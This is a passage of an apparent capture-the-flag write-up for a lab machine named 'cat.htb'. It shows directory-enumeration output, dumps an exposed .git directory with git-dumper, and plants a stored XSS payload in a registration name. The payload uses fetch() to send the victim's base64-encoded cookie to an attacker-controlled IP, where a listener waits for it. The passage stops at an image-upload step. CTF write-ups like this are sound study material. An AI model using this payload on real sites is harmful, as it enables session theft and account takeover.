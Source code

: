 ```bash
[13:49:58] 403 -  272B  - /.html_var_de
[13:50:01] 403 -  272B  - /server-status
[13:50:03] 301 -  304B  - /winners  ->  http://cat.htb/winners/
Added to the queue: winners/
[13:50:04] 301 -  301B  - /.git  ->  http://cat.htb/.git/
Added to the queue: .git/
[13:50:05] 403 -  272B  - /.html.
CTRL+C detected: Pausing threads, please wait...

```

### GIT-DUMPER
---

And we see something interesting, there is a `.git`, therefore with the `gitdumper` tool we are going to obtain all the information from that directory.

```bash
git-dumper http://cat.htb/.git/ output
```

And we see how the page is structured, thanks to this we know that it is vulnerable to `XSS attacks`, therefore we can steal cookies. To do this, we go to the page and in join it asks us to register, so we are going to put this command as the name.

```bash
<script>fetch('http://10.10.10.10/exfil?cookie=' + btoa(document.cookie))</script>
```

And to receive the cookie we create a python server on our machine

```bash
sudo python3 -m server http.server 80
```

Ok now to carry out the `XSS attack` we register with the name mentioned above and once registered we log in where it says already have an account below where you register and we put the same name and password; now for the payload to work we need to upload an image in this section

![Texto alternativo](/assets/cat/Screenshot%202025-02-02%20135914.jpg)
